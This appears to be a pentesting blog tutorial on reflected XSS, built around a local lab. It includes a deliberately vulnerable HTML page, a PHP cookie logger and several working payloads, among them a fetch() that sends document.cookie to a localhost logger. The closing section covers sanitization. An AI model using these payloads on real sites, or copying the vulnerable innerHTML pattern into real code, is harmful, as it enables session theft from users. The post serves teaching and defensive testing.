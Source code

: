 ```yaml
---
title: "Reflected XSS: Explained with Real Examples"
author: saramazal
layout: post
date: 2025-04-22
categories: [XSS]
tags: [xss, web, pentesting, tryhackme, client-side, appsec]
img_path: /images/covers
image:
  path: /images/covers/pink-girl5.jpg
---
```


## 👾 Reflected XSS – Real-World Lab

Let’s dive into Reflected Cross-Site Scripting (XSS), a client-side vulnerability used by attackers to execute malicious code in a victim’s browser. This lab simulates real scenarios, built for hands-on learning.

---

## 🚨 What is Reflected XSS?

Reflected XSS happens when data from a request (URL, form, etc.) is immediately echoed in the response without validation or sanitization.

🛠️ **Example:**
```html
http://victim-site.com/page?q=<script>alert(1)</script>
```

If the app outputs `q` without filtering, the script runs in the browser.

---

## 🎯 Lab Goals

- See how user input reflects in HTML
- Inject XSS payloads manually
- Steal cookies with `fetch()` to a PHP logger
- Confirm captured cookies in terminal

---

## 🧱 Lab Structure

```
xss-lab/
├── xss-lab.html        # The vulnerable page
├── steal.php           # Attacker's logger
├── requests.log        # Log of stolen cookies
├── cookie.txt          # Simulated browser cookie file
```

---

## 🧠 Lab Code

### xss-lab.html

```html
<!DOCTYPE html>
<html>
<head><title>XSS Lab</title></head>
<body>
  <h2>Reflected XSS Demo</h2>
  <div id="output"></div>

  <script>
    const q = new URLSearchParams(location.search).get('q');
    document.getElementById('output').innerHTML = q;
  </script>
</body>
</html>
```

### steal.php

```php
<?php
file_put_contents("requests.log", print_r($_GET, true) . "\n", FILE_APPEND);
?>
```

---

## 🚀 Run the Lab Locally

1. **Start a local PHP server**:
```bash
php -S localhost:8080
```

2. **Set a fake cookie in your browser (DevTools Console):**
```js
document.cookie = "session_id=hello_mazal";
```

3. **Trigger the attack:**
```
http://localhost:8080/xss-lab.html?q=<script>fetch('http://localhost:8080/steal.php?c='+document.cookie)</script>
```

4. **Check logs:**
```bash
cat requests.log
```

---

## 💡 Test Inputs to Play With

Add these for form-based XSS:

```html
<input type="text" placeholder="Search...">
<textarea placeholder="Write a comment..."></textarea>
<input type="file" accept="image/*">
```

---

## ⚔️ Payload Examples

- Classic alert box:
```html
<script>alert("XSS")</script>
```

- Cookie theft:
```html
<script>fetch('http://localhost:8080/steal.php?c=' + document.cookie)</script>
```

- Image-based execution:
```html
<img src=x onerror="alert('XSS')">
```

- On-hover trigger:
```html
<b onmouseover="alert('XSS')">Hover me</b>
```

- Script via eval (dangerous if used):
```html
"><script>eval('alert(1)')</script>
```

---

## 🧪 Testing Tips

✅ Test in the browser by entering payloads in the URL:  
`http://localhost:8080/xss-lab.html?q=<script>alert(1)</script>`

✅ Or manually trigger fetch from DevTools:
```js
fetch("http://localhost:8080/steal.php?c=" + document.cookie)
```

---

## 🔒 Validating & Sanitizing Inputs

- **Validate** input against expected patterns (e.g., regex for email)
- **Sanitize** output by escaping characters like `<`, `>`, `"`, `'`

**Example (PHP):**
```php
echo htmlspecialchars($_GET['q'], ENT_QUOTES, 'UTF-8');
```

---

## 🔚 Final Thoughts

Reflected XSS is fast and dangerous. In real-world bug bounties, it’s still common due to poor input handling.

✅ Always sanitize before rendering  
✅ Test every input and reflected output  
✅ Use browser DevTools and manual payloads for testing

---

Stay curious, break safely, and document everything.  
**~ Maz4l 🤺**

---
*More hacks, more notes, more wins.*